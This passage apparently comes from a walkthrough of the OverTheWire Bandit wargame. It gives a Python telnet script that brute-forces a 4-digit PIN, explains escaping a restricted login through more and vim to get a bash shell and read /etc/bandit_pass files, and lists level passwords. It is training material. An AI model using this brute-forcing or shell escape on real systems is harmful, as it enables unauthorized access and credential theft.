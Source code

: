 ```python
#!/usr/bin/env python3

from telnetlib import Telnet

PASS = b'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'

telnet = Telnet()
telnet.open('localhost', 30002)
telnet.read_until(b'\n')  # ignore first line

for i in range(10000):
    telnet.write(PASS + b' ' + bytes(str(i).zfill(4), 'us-ascii') + b'\n')
    data = telnet.read_until(b'\n')
    if data != b'Wrong! Please enter the correct pincode. Try again.\n':
        print(i, data)
        print(telnet.read_all())
        break
    if i % 100 == 0:
        print('Currently at:', i)
```

Take care that the passcode is 4-digit. So numbers like `25` need to be padded with `0`s to obtain `0025`.
Run this script and wait for a few minutes until you get the password to the next level.

### Bandit 25

Password: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

This was really hard. I tried `export MORE='--d -1'` to make more always use a line size of $1$ but that didn't work,
possibly because `sshd` was not configured to accept the variable `MORE`. Resizing the terminal window so that it
displays just one line did work. I got a hint by running `ssh` with `-vvv`. Whenever the terminal size changes, the
`ssh` client sends a terminal size changed signal to the server. Once `more` is paused, hit the `v` key to start `vim`.
Then set the `shell` option using `set shell=/bin/bash`. Then, run a command from inside `vim` like you would otherwise.
`:!/bin/bash`. Boom, you get a shell. Make sure you allocate a pseudo-tty by setting the `-t` flag in `ssh`. Then, we
can easily `cat` the password in `/etc/bandit_pass/bandit26`. The thing to note here is that `more` should never be used
in a shell script, otherwise the user can perform arbitrary code injection.

### Bandit 26

Password: `5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z`

Once you have the shell from Bandit 26, run the following command to get the password. This challenge is another example
of `setuid`.
